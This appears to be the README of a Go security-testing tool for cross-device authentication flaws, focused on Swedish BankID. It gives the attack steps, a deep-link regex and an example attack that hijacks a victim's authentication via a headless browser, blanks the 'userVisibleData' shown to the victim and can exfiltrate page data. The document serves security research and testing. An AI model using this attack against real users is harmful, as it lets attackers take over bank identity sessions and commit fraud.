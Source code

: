 # Cross Device Authentication Tesing Tool

This tool was created to be able to easily test flaws in different cross device authentication protocols. Services relying on qr-codes and deep-links to authenticate remote or local browser sessions using their own mobile app are becoming increasingly popular, but testing their security can be quite difficult.

This tool relies on a headless browser to test for a simple attack that allows an attacker to start an authentication order against a service, extract or generate a deep link which will trick the victim's application to authenticate the remote session all on the fly as the victim is visiting our web server.

## Usage

Currently only one attack is available for use, slowly as other vulnerabilities get disclosed publicly more will be added. 

The attack available is to test Swedish BankID configurations, related to the research that can be found [here](https://mastersplinter.work/bankid)

This tool requires:
- `go >= 1.21.6` 
- `chromium` or `google-chrome` and the respective headless driver

After installing those dependencies the tool can be run with `go run .`.

## Attack steps

1. The victim visits the exposed web server hosted on port 8080 (victim can also be taken directly to step 2)
2. The victim clicks on the path hosting the attack
3. The headless browser goes to the target service and starts an authentication order
4. The deep-link is extracted/generated from the authentication order
5. The victim is redirected to the deep-link
    - Via server redirection straight to the deep link
    - To a secondary page that triggers the deep link with js and then navigates to the legitimate service website
6. After the victim authenticates on the service's mobile app our headless browser session will instead be authenticated

## Creating a new attack

While the tool might move towards configuration files to set these up, currently they are defined directly in the Golang code.

### Attack Type

An attack type is defined for each different IdP you are targeting, while the attack itself might differ service to service, the attack type is supposed to the define general parameters for the "family" of attacks:

```go
var BankIDAttack AttackType = AttackType{
	Name:      "bankid",
	Regex:     `(bankid:\/\/\/)?\?autostarttoken=[0-9a-fA-F]{8}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{4}-[0-9a-fA-F]{12}&redirect=\w+`,
	Prefix:    "bankid:///",
	ReturnArg: "redirect",
}
```

- `Name`: Name for this type of attack
- `Regex`: Regex for the deep-link to be extracted
- `Prefix`: Prefix for the deep-link
- `ReturnArg`: Some IdPs like to redirect back to a webpage after auth using a parameter, set the name of such parameter if you want to try and hijack such a flow to find an open redirect

All of these parameters except `Name` are optional.

### Attack 

After defining your attack type you will now be able to use it to define an attack:

```go
type Attack struct {
	Url                 string                                                          // Main Url to visit
	RedirectURL         string                                                          // URL to redirect victim to (for higher impact)
	Actions             []chromedp.Action                                               // Actions of the headless browser
	CustomExtraction    func(string, string) string                                     // Custom action to extract the deep link
	RequestInterception func(ev *fetch.EventRequestPaused) *fetch.ContinueRequestParams // Action to modify request to get deep link
	Path                string                                                          // Path to host attack on
	Fixed               bool                                                            // Attack is fixed
	Type                AttackType                                                      // Type of attack
	CustomBrowserFlags  []chromedp.ExecAllocatorOption                                  // Custom flags to pass to the headless browser
	ExfiltrationSteps   []chromedp.Action                                               // Headless browsers steps to be taken to exfiltrate data (not required)
	ExfilArea           string                                                          // XPath for text to extract out of the page after exfiltration steps
}
```

Here is an example:

```go
{
    Url:  "https://www.bankid.com/demo",
    Path: "/bankid-demo",
    Actions: []chromedp.Action{
        chromedp.Sleep(1 * time.Second),
        chromedp.WaitVisible("/html/body/div/div[2]/div[1]/div[1]/div[1]/div/a[1]", chromedp.BySearch),
        chromedp.Click("/html/body/div/div[2]/div[1]/div[1]/div[1]/div/a[1]", chromedp.BySearch),
        chromedp.WaitVisible("/html/body/div/div[2]/div[1]/div[1]/div/div[2]/a", chromedp.BySearch),
        chromedp.Click("/html/body/div/div[2]/div[1]/div[1]/div/div[2]/a", chromedp.BySearch),
    },
    RedirectURL: "https://www.bankid.com/demo",
    Type:        BankIDAttack,
    ExfilArea:   `/html/body/div/div[2]/div[1]/div[1]/div/div[2]/div[2]/div[1]`,
    // Removing the test markdown text
    RequestInterception: func(ev *fetch.EventRequestPaused) *fetch.ContinueRequestParams {
        var fetchRequest *fetch.ContinueRequestParams
        if strings.Contains(ev.Request.URL, "/demo/api/authentication") {
            r, _ := base64.StdEncoding.DecodeString((ev.Request.PostDataEntries[0].Bytes))
            re := regexp.MustCompile(`"userVisibleData":"[^"]*"`)
            noDeviceData := re.ReplaceAllString(string(r), `"userVisibleData":""`)
            fetchRequest = fetch.ContinueRequest(ev.RequestID).WithPostData(base64.StdEncoding.EncodeToString([]byte(noDeviceData)))
        } else {
            fetchRequest = fetch.ContinueRequest(ev.RequestID)
        }
        return fetchRequest
    },
},
```

As shown the tool heavily relies on the `chromedp`, I recommend reading up on their docs and their examples to see the full extent of its capabilities [here](https://github.com/chromedp/chromedp).

Hopefully as more attacks get released here they will be sufficient to draw inspiration from.